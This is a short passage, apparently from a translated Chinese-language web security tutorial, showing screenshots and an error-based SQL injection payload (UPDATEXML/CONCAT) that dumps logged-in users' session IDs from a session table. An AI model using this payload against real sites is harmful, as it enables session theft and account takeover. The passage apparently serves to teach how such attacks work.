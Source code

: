 ![](img/9d256823-36e9-4d9c-8fc9-284a588ff85b.png)

以下屏幕截图显示了用于转储用户会话的 SQL 查询：

![](img/aa19bb5a-5181-4a86-baf9-140f996e7ce7.png)

如下所示：

```
(UPDATEXML(2170,CONCAT(0x2e,0x414243,(SELECT MID(session_id,1,42) FROM ntnsi_session where userid!=0 LIMIT 1),0x414243),4879))
```
